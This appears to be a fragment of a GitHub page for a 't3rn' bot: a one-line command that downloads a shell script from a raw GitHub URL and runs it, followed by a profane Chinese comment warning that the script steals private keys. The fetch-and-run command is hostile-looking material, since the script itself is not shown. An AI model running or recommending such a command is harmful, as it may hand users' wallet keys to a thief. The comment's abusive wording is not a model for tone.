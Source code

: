 
wget -O t3rn.sh https://raw.githubusercontent.com/sdohuajia/t3rn-bot/refs/heads/main/t3rn.sh && sed -i 's/\r//' t3rn.sh && chmod +x t3rn.sh && ./t3rn.sh

操你麻痹的Rambeboy,大家注意一下这个傻逼的脚本，偷私钥的

